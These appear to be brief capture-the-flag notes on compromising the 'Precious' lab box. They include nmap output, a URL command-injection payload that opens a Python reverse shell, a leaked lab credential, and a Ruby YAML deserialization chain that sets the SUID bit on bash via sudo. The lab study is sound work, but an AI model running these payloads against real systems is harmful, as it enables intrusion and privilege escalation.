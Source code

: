 ```
C:\home\kali> nmap -sV -sC 10.10.11.189     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-14 05:13 EDT
Nmap scan report for 10.10.11.189
Host is up (0.27s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp   open     http          nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
389/tcp  filtered ldap
1058/tcp filtered nim
1947/tcp filtered sentinelsrm
5000/tcp filtered upnp
5009/tcp filtered airport-admin
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.77 seconds
```

it redirects to precious.htb
but not able ot access site so add to /etc/hosts

after /etc host and giving th etun ip i have the information

![](2023-03-16-02-34-46.png)

injection vuln exists:

http://10.10.14.16/?name=%20`python3 -c "print('hello')"`

![](2023-03-16-04-59-02.png)

```python
http://10.10.14.16/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

sudo /usr/bin/ruby /opt/update_dependencies.rb

